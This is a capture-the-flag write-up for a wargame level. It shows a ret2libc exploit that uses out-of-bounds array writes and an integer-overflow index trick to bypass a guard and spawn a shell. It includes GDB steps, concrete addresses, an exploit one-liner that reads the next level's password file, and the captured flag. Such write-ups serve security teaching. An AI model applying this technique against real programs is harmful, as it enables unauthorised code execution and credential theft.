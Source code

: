 # level07

The executable runs an interactive loop, allowing us to write numeric values in a dedicated array.

We can't use `argv` or the `env`, because they're cleaned out by preemptive loops.

We can write outside of that array, using indexes that overflow 100 ; we'll use this to perform a `ret2libc` attack.

## **The exploit**

Just like in `level04`, we need the addresses of `system` and `"/bin/sh"`, which we can find in GDB with `print system` and `find __libc_start_main,+99999999,"/bin/sh"`.

We get `0xf7e6aed0` and `0xf7f897ec`, which we'll set at `eip` and `eip+8`.

By playing around in GDB, we find the unsigned int buffer starts at `0xffffd544`, with `eip` at `0xffffd70c`. This is an offset of `456`, which we divide by `4` since it's an unsigned int table, so `eip` is at `buf[114]`.

We start by inserting `"/bin/sh"` (`0xf7f897ec == 4160264172`) at `eip+8` (`116`) :

```
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
```

Good. Now let's do `system` (`0xf7e6aed0 == 4159090384`) at `eip` (`114`) :

```
Input command: store
 Number: 4159090384
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

Problem : the `i % 3 == 0` prevents us for writing in `eip`. How can we circumvent this ?

The bitshift in `*(s + i << 2) = n;` shifts our index by 2 to multiply it by 4, a necessary conversion to index an unsigned int table. This is quite useful to us : it means the two most significant bits are lost, and we can set them to whatever we want and still get `114`.

```
00000000000000000000000001110010  ==  114
               vv
10000000000000000000000001110010  ==  2147483762
```

We try again with our new index `2147483762` :

```
Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
```

If we `read` our indexes, we can see the values are correctly set. We run `quit`, and the console opens - the `ret2libc` works !

## **The flag**

We can condense our exploit into the following one-liner :

```
( echo store ; echo 4160264172 ; echo 116 ; echo store ; echo 4159090384 ; echo 2147483762 ; echo quit ; sleep .1 ; echo "cat /home/users/level08/.pass" ) | ./level07
```

We get the flag for `level07` :

```
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```